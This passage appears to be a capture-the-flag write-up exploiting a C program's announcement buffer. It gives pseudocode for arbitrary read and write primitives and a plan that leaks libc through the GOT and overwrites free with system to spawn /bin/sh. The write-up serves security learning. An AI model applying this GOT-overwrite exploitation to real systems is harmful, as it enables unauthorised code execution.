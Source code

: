         remove_announcement ();
        global.announcement = malloc (len);

        //printf("Malloced %p\n", global.announcement);
        if (global.announcement == NULL) {
            printf("ERR: Failed to allocate announcement\n");
            return;
        }
        global.announcement_length = len;
    }

    // Re-use available buffer
    if (fgets (global.announcement, len, stdin) == NULL) {
        printf("Failed to read announcement\n");
        exit(-69);
    }
    global.announcement[strcspn(global.announcement, "\n")] = 0;

}
{% endhighlight %}

Since both `char s1_name[STATE_SIZE_LEN];` and `char s2_name[STATE_SIZE_LEN];` varibales separates us from reaching the announcement pointer, we need to find something pretty bigger than `9` to reach it. Good enough we can use global variable `const int N = 1024;` to do the trick. Did our math and found two possible assignments for L1 and L2 : `258` , `N;k`. With this in mind we developed the idea of the two basic primitives as follows:

{% highlight Python%}
def read_at(address):
	amount = address
	initialize_citizens(amount) # using void init_states(int k) -- option 1 in void menu()
	propagate_forward(amount) # pushing our address value in the first 4 bytes of char s1_name
	initialize_citizens(0) # sets the arrays to 0, address is now only in char s1_name
	for(i in xrange(256)):
		propagate_fw(amount) # our address is moving forward reaching char* announcement
	leak = extract_leak(print_states()) # void print_states() actually prints *announcement
	return leak

def write_at(what,where):
	amount = where
	initialize_citizens(amount) 
	propagate_forward(amount)
	initialize_citizens(0)
	for(i in xrange(256)):
		propagate_fw(amount)
	create_announcement(what) # using void create_announcement() to write at *announcement
{% endhighlight %}


With this two basic primitives the attack strategy is pretty easy:

1. We leak at `free_in_got` to get `free_in_libc_at_runtime`
2. We calculate the offset from libc to obtain `system_in_libc_at_runtime`
3. We write `system_in_libc_at_runtim` at `free_in_got`
4. We create an announcement containing `/bin/sh\x00`
5. We call `remove_announcement()`, this will trigger `system(/bin/sh\x00)`
